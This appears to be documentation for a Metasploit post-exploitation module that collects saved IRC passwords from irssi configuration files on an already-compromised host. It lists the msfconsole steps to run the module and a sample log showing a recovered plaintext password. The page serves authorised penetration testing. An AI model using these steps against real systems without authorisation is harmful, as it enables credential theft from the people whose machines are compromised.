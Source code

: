 ## Vulnerable Application

[irssi](https://irssi.org/) an IRC and chat client.

This module was successfully tested against:

- OSX 10.10.5 and IRSSI version 0.8.19

## Verification Steps

  1. Get a `shell` or `meterpreter` session on some host.
  2. Do: ```use post/multi/gather/irssi_creds```
  3. Do: ```set SESSION [SESSION_ID]```
  4. Do: ```run```
  5. If the system has readable configuration files containing irc passwords, they will be printed out.

## Scenarios

### OSX 10.10.5 and IRSSI version 0.8.19

```
msf post(irssi_creds) > run

[*] Finding ~/.irssi/config
[*] Looting 1 files
[+] Found a IRC password(s): chubbybunnies
[+] IRC password(s) stored in /Users/[REDACTED]/.msf/loot/20170405005410_default_[REDACTED]_irc.password_744582.txt
[*] Post module execution completed
```
